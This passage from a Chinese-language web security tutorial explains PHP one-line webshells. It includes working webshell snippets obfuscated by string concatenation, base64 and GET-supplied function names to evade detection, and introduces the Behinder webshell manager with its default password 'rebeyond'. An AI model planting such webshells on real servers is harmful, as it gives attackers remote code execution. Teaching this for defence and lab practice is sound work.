 <pre class="lang-java" data-nodeid="23802"><code data-language="java">http:<span class="hljs-comment">//127.0.0.1/hackable/uploads/eval.php?a=phpinfo();</span>
</code></pre>
<p data-nodeid="23803">利用一句话木马成功执行 phpinfo() 函数。</p>
<p data-nodeid="23804"><img src="https://s0.lgstatic.com/i/image/M00/91/86/CgqCHmAOpTmAfY3IAARME2KRqaY914.png" alt="图片4.png" data-nodeid="23934"></p>
<div data-nodeid="23805"><p style="text-align:center">图 4  利用一句话木马执行代码</p></div>
<p data-nodeid="23806">有时为了绕过木马检测，攻击者会对一句话进行混淆变形，比如下面几句。</p>
<ul data-nodeid="23807">
<li data-nodeid="23808">
<p data-nodeid="23809"><strong data-nodeid="23939">利用字符串拼接执行函数名：</strong></p>
</li>
</ul>
<pre class="lang-php" data-nodeid="23810"><code data-language="php"><span class="hljs-meta">&lt;?php</span>
$a=<span class="hljs-string">"e"</span>.<span class="hljs-string">"v"</span>;
$b=<span class="hljs-string">"a"</span>.<span class="hljs-string">"l"</span>;
$c=$a.$b;
$c($_POST[<span class="hljs-string">'a'</span>]);
<span class="hljs-meta">?&gt;</span>
</code></pre>
<ul data-nodeid="23811">
<li data-nodeid="23812">
<p data-nodeid="23813"><strong data-nodeid="23945">通过 base64_decode 编码执行函数名：</strong></p>
</li>
</ul>
<pre class="lang-php" data-nodeid="23814"><code data-language="php"><span class="hljs-meta">&lt;?php</span>
$a=base64_decode(<span class="hljs-string">"ZXZhbA=="</span>)
$a($_POST[<span class="hljs-string">'a'</span>]);
<span class="hljs-meta">?&gt;</span>
</code></pre>
<ul data-nodeid="23815">
<li data-nodeid="23816">
<p data-nodeid="23817"><strong data-nodeid="23949">由 GET 参数指定函数名和参数：</strong></p>
</li>
</ul>
<pre class="lang-php" data-nodeid="23818"><code data-language="php"><span class="hljs-meta">&lt;?php</span> $_GET[<span class="hljs-string">'a'</span>]($_GET[<span class="hljs-string">'b'</span>]);  <span class="hljs-meta">?&gt;</span>
</code></pre>
<p data-nodeid="23819">行业内常称“一句话木马”为“小马”，用它来传递“大马”，因为“大马”比较容易被检测到。</p>
<h4 data-nodeid="23820">2.Webshell 管理工具</h4>
<p data-nodeid="23821">攻击者常用“菜刀”“冰蝎”“蚁剑”、Weevely、Cknife 这些 Webshell 工具去连接一句话木马，其中尤以“菜刀”最为出名。</p>
<p data-nodeid="23822">由于原版“菜刀”只支持 Windows，因此我这边选用支持跨平台的“冰蝎”作为演示，可进入 <a href="https://github.com/rebeyond/Behinder/releases" data-nodeid="23956">Github</a> 对“冰蝎”进行下载。</p>
<p data-nodeid="23823">下载解压后的目录：</p>
<pre class="lang-java" data-nodeid="23824"><code data-language="java">$ tree
.
├── 更新日志.txt
├── Behinder_v3<span class="hljs-number">.0</span>_Beta6_linux.jar
├── data.db
└── server
&nbsp; &nbsp; ├── shell.asp
&nbsp; &nbsp; ├── shell.aspx
&nbsp; &nbsp; ├── shell.jsp
&nbsp; &nbsp; ├── shell.jspx.jsp
&nbsp; &nbsp; └── shell.php
</code></pre>
<p data-nodeid="23825">server 目录就是用来上传服务端的小马，我们选择上传 shell.php，默认使用连接密码 rebeyond，你可根据需要自行修改，然后用密码 32 位 md5 哈希值替换 key 变量即可。</p>
<p data-nodeid="23826">shell.php 代码如下：</p>
<pre class="lang-php" data-nodeid="23827"><code data-language="php"><span class="hljs-meta">&lt;?php</span>